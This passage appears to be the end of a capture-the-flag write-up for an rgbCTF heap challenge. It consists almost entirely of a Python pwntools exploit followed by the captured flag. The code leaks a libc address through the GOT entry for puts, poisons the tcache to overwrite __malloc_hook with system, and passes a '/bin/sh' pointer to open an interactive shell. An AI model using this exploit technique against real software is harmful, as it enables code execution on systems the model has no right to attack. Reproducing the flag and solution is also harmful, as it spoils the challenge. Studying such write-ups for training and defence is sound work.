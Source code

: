 ```python
fakestruct += p64(e.got['puts']) + p64(e.address + 0x000000000202000 + 0x100) + p64(e.address + 0x000000000202000 + 0x100)
chooseSong(0x230,fakestruct)
chooseSong(0,dodata=False)
chooseSong(0,dodata=False)
libcleak = singSong()
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
chooseSong(0x20,p64(libc.symbols['__malloc_hook'])) # Put inside of 0x40 tcache bin
chooseSong(0x30)
chooseSong(0x30,p64(libc.symbols['system']))
log.info("/bin/sh pointer as decimal: {}".format(next(libc.search(b"/bin/sh\x00"))))
binsh = next(libc.search(b"/bin/sh\x00"))
p.sendlineafter("> ","1")
p.sendlineafter("> ",str(binsh))
p.interactive()
```

## rgbCTF{l3ts\_g31\_th1s\_bre@d}

